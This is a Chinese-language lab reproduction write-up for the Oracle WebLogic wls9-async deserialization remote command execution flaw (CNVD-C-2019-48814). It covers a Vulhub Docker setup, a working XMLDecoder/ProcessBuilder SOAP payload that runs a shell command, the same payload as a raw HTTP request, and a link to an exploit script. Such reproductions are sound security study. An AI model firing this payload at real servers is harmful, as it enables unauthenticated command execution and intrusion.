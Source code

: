 # CNVD-C-2019-48814



## 0x01 搭建漏洞环境

*漏洞介绍*

2019年4月17日，国家信息安全漏洞共享平台（CNVD）收录了由中国民生银行股份有限公司报送的Oracle WebLogic wls9-async反序列化远程命令执行漏洞（CNVD-C-2019-48814）。攻击者利用该漏洞，可在未授权的情况下远程执行命令。

*影响版本*

Oracle WebLogic Server10.3.6.0.0
Oracle WebLogic Server12.1.3.0.0
Oracle WebLogic Server12.2.1.1.0
Oracle WebLogic Server12.2.1.2.0

利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

我们可以先进入容器内部
```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

POC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/sh</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

burp
```
GET / HTTP/1.1
Host: 172.16.200.221:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 814



<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

发送数据包 ，返回202 ，到服务器查看发现命令已经执行成功

![](./img/1.png)

![](./img/2.png)

复现成功

有人会认为没回显，可以使用dnslog，也可以写到文件里。


简单的写下exp

[webLogic-wls9-exp.py](https://github.com/zhengjim/loophole/blob/master/CNVD-C-2019-48814/webLogic-wls9-exp.py)

![](./img/3.png)